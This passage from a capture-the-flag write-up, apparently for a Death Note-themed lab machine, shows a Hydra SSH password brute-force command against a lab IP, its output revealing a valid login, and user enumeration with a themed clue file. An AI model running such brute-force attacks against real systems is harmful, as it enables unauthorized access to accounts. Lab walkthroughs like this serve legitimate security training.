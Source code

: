 ```bash
hydra -L user.txt -P notes.txt 10.1.1.4 ssh
```

```bash
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 731 login tries (l:17/p:43), ~46 tries per task
[DATA] attacking ssh://10.1.1.4:22/

[STATUS] 287.00 tries/min, 287 tries in 00:01h, 445 to do in 00:02h, 15 active
[22][ssh] host: 10.1.1.4   login: l   password: death4me

[STATUS] 278.00 tries/min, 556 tries in 00:02h, 176 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
```

so, user : `l` and password : `death4me`

---

## PORT 22 ( SSH )

![image](https://github.com/user-attachments/assets/36399546-1159-4bfa-9f9d-e17ee4de1fde)

### Username Enumeration

two users found `kira` and `l` (obv)

### System Enumeration

```bash
l@deathnote:/opt/L/kira-case$ cat case-file.txt 
```

```bash
the FBI agent died on December 27, 2006

1 week after the investigation of the task-force member/head.
aka.....
Soichiro Yagami's family .


hmmmmmmmmm......
and according to watari ,
he died as other died after Kira targeted them .


and we also found something in 
fake-notebook-rule folder .
```

- will check the `fake-notebook-rule` later

---
